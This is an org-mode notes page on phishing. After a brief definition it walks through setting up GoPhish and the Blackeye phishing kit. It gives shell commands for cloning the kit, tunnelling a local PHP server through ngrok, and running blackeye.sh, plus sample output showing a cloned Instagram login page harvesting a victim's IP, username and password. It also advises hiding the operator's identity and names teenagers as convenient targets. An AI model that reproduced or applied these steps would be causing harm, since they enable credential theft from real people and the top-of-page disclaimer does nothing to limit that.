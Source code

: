 #+title:Phishing
#+OPTIONS: \n:t
#+roam_tags: Social_Engineering

[WARNING: WRITER ARE NOT RESPONSIBLE FOR ANY MISUSE OR DAMAGE CAUSED BY USING TOOLS MENTIONED IN THIS REPO. IT IS ILLEGAL TO USE THIS TOOLS WITHOUT MUTUAL CONSENT, YOU'VE BEEN WARNED!]

Phishing is a type of attack that are using E-mail, voice (Vishing), or SMS (smishing) to attack its target. This kind of attack can be pointed into an individual which is called as spear phishing. Phishing has been around since 90s targeting America Online (AOL). In these day and age, phishing is disguised in many ways, from E-mail notification of a big company sending you money, or even from a fake account that are sending you "love letter" with malware in disguise.

** How does it work?

Phishing can be done in multiple ways, while phishing itself can be run through E-mail, you might want to use other means of attack if you are targeting a specific person that might or might not use E-mail. Whatsapp, social media, can be used for Phishing campaign, it is because the educational needs in social media todays are mostly teenagers, which is a possible target for phishing.

Phishing servers are usually run on cloud services, or can be hosted local in a computer, but since Phishers are sneaky, one might use public instances to do the attack. Each fake E-mail is sent to victim(s) E-mail address in lieu of other means of attack said above. Digital Ocean or AWS might be a good place to hosts this server. While the E-mail is sent, Phishers might get notice when the link is clicked or opened, if the E-mail is read or not, if the Landing Page sent already have forms filled by victim(s) or not, and any information related to the campaign.

** Gophish

WEB: https://getgophish.com/
GIT: https://github.com/gophish/gophish

GoPhish can be used to create a campaign based Phishing environment, for this environment to work, we have to setup some boundaries first, one rule of thumb, do not use your personal mail address for this. =Mailhog= will help assigning email@localhost.localdomain to hog all the mail that sent or receive during the campaign, it is possible to use other E-mail address, but there's some issues that when sent to an E-mail address based on Google, it is possible that it will already flagged as spam or something else to help with the security.

There are multiple preparation that you can do to help with assigning things later for gophish:
- AWS, Azure, Digital Ocean, or local can be used as the base for GoPhish server.
- GoPhish might want E-mail address like Mailhog or other E-mail services that have smtp available can be used.
- Target E-mail, E-mail content, and a Landing Page, are needed for GoPhish to work.
  + GoPhish might want a Landing Page that are possible to be duplicated, as of writing, it is currently not possible to copy Facebook based web address, but your mileage may vary.
  + GoPhish also want E-mails that can use smtp, the username and password in the page needs your e-mail credentials, this is why it is not even recommended to use your personal address, use E-mail services that are not connected to you by any means.

#+begin_src shell
$ curl -L https://github.com/gophish/gophish/releases/download/0.7.1/gophish-v0.7.1-linux-64bit.zip -o gophish.zip
$ mkdir -p ~/opt && unzip gophish.zip ~/opt/gophish
#+end_src


** Blackeye

GIT: https://github.com/An0nUD4Y/blackeye

Installation:
- PHP ( Should be available in Kali Linux )
- Ngrok ( Create your account first )
- GIthub Account ( Easier )

[ WARNING ] This preparation are needed if =blackeye.sh= not working as intended, as precaution, we have to manually run the ngrok server and serve the php to our http://localhost:8080 ( or another port ) to get it to works. Go to next section to actually run =blackeye=.

Here is the command you need to install and setup ngrok manually, though you will proabably be downloading this again in =blackeye=, so you might want to copy ngrok to your =blackeye= folder later. Authtoken can be seen [[https://dashboard.ngrok.com/get-started/your-authtoken][here]].

#+begin_src shell
$ git clone https://github.com/An0nUD4Y/blackeye
$ cd blackeye
$ wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
$ unzip ngrok-stable-linux-amd64.zip
$ ./ngrok authtoken 0000000000000000000000000000000000000000000000000
#+end_src

If you run ngrok server by itself, it will be seen like this:

#+begin_src shell
ngrok by @inconshreveable

Session Status                online
Account                       account-name (Plan: Free)
Version                       2.3.35
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://alphanumeric.ngrok.io -> http://localhost:8080
Forwarding                    https://alphanumeric.ngrok.io -> http://localhost:8080

Connections                   ttl     opn     rt1     rt5     p50     p90
                              22      0       0.25    0.07    0.06    3.14
#+end_src

As of when this articles made, you can access http://127.0.0.1:4040/status to check ngrok status and below =command_line= section, you will see your URL that can be used.

#+begin_src shell
$ sudo ./blackeye.sh # Password Needed

[sudo] password for archaict:

     :: Disclaimer: Developers assume no liability and are not    ::
     :: responsible for any misuse or damage caused by BlackEye.  ::
     :: Only use for educational purporses!!                      ::

     ::     BLACKEYE v1.5! By @suljot_gjoka & @thelinuxchoice     ::

          [01] Instagram      [17] DropBox        [33] eBay
          [02] Facebook       [18] Adobe ID       [34] Amazon
          [03] Snapchat       [19] Shopify        [35] iCloud
          [04] Twitter        [20] Messenger      [36] Spotify
          [05] Github         [21] GitLab         [37] Netflix
          [06] Google         [22] Twitch         [38] Custom
          [07] Origin         [23] MySpace
          [08] Yahoo          [24] Badoo
          [09] Linkedin       [25] VK
          [10] Protonmail     [26] Yandex
          [11] Wordpress      [27] devianART
          [12] Microsoft      [28] Wi-Fi
          [13] IGFollowers    [29] PayPal
          [14] Pinterest      [30] Steam
          [15] Apple ID       [31] Bitcoin
          [16] Verizon        [32] Playstation

[*] Choose an option: 1 # choose your poison

[*] Starting php server...
[*] Starting ngrok server...
[*] Send this link to the Victim: # check http://localhost:4040
[*] Waiting victim open the link ...

[*] IP Found!
[*] Victim IP: 127.0.0.1 # It will be your public IP here (SECRET)
[*] User-Agent:  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/XX.0
[*] Saved: instagram/saved.ip.txt

[*] Waiting credentials ...

[*] Credentials Found!
[*] Account: helloWorld
[*] Password:  12345678
[*] Saved: sites/instagram/saved.usernames.txt
#+end_src

If your php is not connected, you can do this instead before running =blackeye=.

#+begin_src shell
$ php -d /path/to/blackeye/sites/instagram -S localhost:8080
#+end_src
